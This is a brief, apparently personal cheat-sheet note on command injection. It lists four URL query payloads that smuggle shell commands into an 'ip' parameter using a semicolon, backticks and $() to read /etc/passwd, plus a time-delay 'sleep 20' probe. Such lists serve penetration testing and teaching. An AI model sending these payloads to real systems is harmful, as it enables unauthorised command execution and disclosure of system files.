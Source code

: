 ## Command Injection Random Notes

- /?ip=127.0.0.1;cat /etc/passwd
- /?ip=`cat /etc/passwd`
- /?ip=$(cat /etc/passwd)
- /?ip=127.0.0.1$(sleep 20)